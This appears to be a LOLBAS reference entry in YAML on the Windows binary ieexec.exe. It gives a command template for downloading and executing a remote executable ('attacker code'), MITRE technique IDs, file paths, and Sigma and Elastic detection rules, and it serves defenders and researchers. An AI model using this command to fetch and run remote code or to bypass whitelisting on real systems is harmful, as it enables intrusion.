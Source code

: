 ```yaml
---
Name: Ieexec.exe
Description: The IEExec.exe application is an undocumented Microsoft .NET Framework application that is included with the .NET Framework. You can use the IEExec.exe application as a host to run other managed applications that you start by using a URL.
Author: Oddvar Moe
Created: 2018-05-25
Commands:
  - Command: ieexec.exe {REMOTEURL:.exe}
    Description: Downloads and executes executable from the remote server.
    Usecase: Download and run attacker code from remote location
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
    Tags:
      - Execute: Remote
      - Execute: EXE (.NET)
  - Command: ieexec.exe {REMOTEURL:.exe}
    Description: Downloads and executes executable from the remote server.
    Usecase: Download and run attacker code from remote location
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
    Tags:
      - Execute: Remote
      - Execute: EXE (.NET)
Full_Path:
  - Path: C:\Windows\Microsoft.NET\Framework\v2.0.50727\ieexec.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v2.0.50727\ieexec.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_lolbin_ieexec_download.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_unusual_process_network_connection.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/defense_evasion_misc_lolbin_connecting_to_the_internet.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_network_connection_from_windows_binary.toml
  - IOC: Network connections originating from ieexec.exe may be suspicious
Resources:
  - Link: https://room362.com/post/2014/2014-01-16-application-whitelist-bypass-using-ieexec-dot-exe/
Acknowledgement:
  - Person: Casey Smith
    Handle: '@subtee'
---
```

